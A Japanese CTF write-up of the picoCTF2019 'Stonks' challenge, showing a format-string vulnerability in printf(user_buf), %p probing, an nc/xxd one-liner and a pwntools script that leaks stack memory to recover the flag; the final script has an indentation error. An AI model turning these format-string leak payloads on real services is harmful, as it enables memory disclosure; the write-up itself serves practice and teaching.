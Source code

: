 # Stonks
## picoCTF2019
## Binary Exploition
***

始めに問題の接続先と、接続先で実行されているプログラムが渡される。  
プログラムに目を通していくと、buy_stonks()で
```
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

のようなプログラムが動いていた。これはユーザーからの入力内容をそのまま出力しているため、書式文字列攻撃が可能である可能性がある。  
試しにこのタイミングで%pと入力してみると、
```
What is your API token?
%p
Buying stonks with token:
0x9f4f430
Portfolio as of Sat Jul 17 14:57:53 UTC 2021
```
と返ってきているため、どうやら書式文字列攻撃が可能っぽい。  
また、おそらくフラグが書かれていると思われるファイルapiがbuy_stonks()で読み込まれているため、メモリ上にフラグがあると考えられる。  
%pを入れるとメモリに書かれている内容が見れるっぽいので、大量に送り付けたらどこかにフラグがかかれてそうだが、何個がいいかわからないため、とりあえず30個ぐらい送り付ける。
```
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
Buying stonks with token:
0x9dda3d0.0x804b000.0x80489c3.0xf7ecfd80.0xffffffff.0x1.0x9dd8160.0xf7edd110.0xf7ecfdc7.(nil).0x9dd9180.0x1.0x9dda3b0.0x9dda3d0.0x6f636970.0x7b465443.0x306c5f49.0x345f7435.0x6d5f6c6c.0x306d5f79.0x5f79336e.0x62633763.0x65616336.0xffc4007d.0xf7f0aaf8.0xf7edd440.0xf9a48000.0x1.(nil).0xf7d6cbe9.
Portfolio as of Sat Jul 17 15:07:13 UTC 2021
```

するとこうなった、当然だが、この状態では普通の人間には読めないため、xxdとtrを使って読める形に変える。  
>> python3 -c 'print("1\n" + "%p." * 50)' | nc mercury.picoctf.net 27912 | tr "." "\n" | xxd -r -p

すると以下の出力が返ってくる。

>> 0=?ocip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10}@Lō��H   K HmPLKHH$ i!S8

結構読めないところが多いが、フラグっぽいところがある。しかしリトルエンディアンになっているため、このままでは出せない。  
4文字ずつ反転させる必要があるが、手作業は面倒なので簡単にスクリプトを書く。  
```
m = "ocip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10}"
print(m)
for i in range(3, len(m), 4):
    for f in range(i, i-4, -1):
        print(m[f], end="")
print("}")
```
これで出てきた値をsubmitする。

これを自動化exploit.pyを作成する。
```
from pwn import *

s = ""

r = remote("mercury.picoctf.net", 27912)

r.recvuntil("View my")
r.send("1\n")
r.recvuntil("What is your API token?\n")

r.send("%x" + "-%x"*40 + "\n")

r.recvline()

x = r.recvline()

x = x[:-1].decode()

print(x) #リークしたアドレスの中身データがxに入っている

for i in x.split("-"):
    if len(i) == 8:
        a = bytearray.fromhex(i)
            for b in reversed(a):
                if b >32 and b < 128:
                    s += chr(b)
```